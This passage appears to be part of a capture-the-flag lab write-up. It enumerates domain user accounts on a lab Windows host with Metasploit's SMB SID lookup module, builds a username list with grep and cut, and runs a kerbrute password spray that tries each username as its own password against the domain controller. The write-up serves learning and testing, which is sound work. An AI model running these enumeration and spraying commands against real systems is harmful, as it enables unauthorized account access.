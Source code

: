 ```
    [...]
    User   qjack289        1389
    [...]
    User   stina909        1981
    User   ereed910        1982
    User   qvictor911      1983
    User   apaul912        1984
    User   ccharlie913     1985
    User   gnoah914        1986
    User   uyvonne915      1987
    User   dfiona916       1988
    User   xtom918         1989
    User   agloria919      1990
    User   urose920        1991
    User   lzach922        1992
    User   xkylie923       1993
    User   mquinton924     1994
    User   lfiona925       1995
    User   yfrank928       1996
    User   vkevin929       1997
    User   iyusuf930       1998
    User   ifrank931       1999
    User   pyara932        2000

[*] 10.10.213.214: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_lookupsid) >
```

Then we can create a `users.txt` file where we can found those usernames : 

<img width="929" height="697" alt="Capture d'écran 2025-08-15 131455" src="https://github.com/user-attachments/assets/3cd1252f-cb87-4b20-862f-6b985aa3e8c8" />

Now we can extract the usernames with the following command : 

```sh
grep "User" users.txt | cut -d " " -f8 | cut -d " " -f1  > users2.txt
```

<img width="733" height="266" alt="Capture d'écran 2025-08-15 131750" src="https://github.com/user-attachments/assets/59d62822-a4c0-424c-b277-9ae72ee2bc56" />

#### Password spraying attack

Once we have our list of usernames in `users2.txt`, we can attempt to find a valid username/password combination by leveraging **poor password practices**, such as users setting their password identical to their username.

We used **Kerbrute** to perform a password spray attack where each username is tried as its own password using the `--user-as-pass` option :

```sh
kerbrute passwordspray --user-as-pass -d SOUPEDECODE.LOCAL --dc DC01.SOUPEDECODE.LOCAL users2.txt -v
```
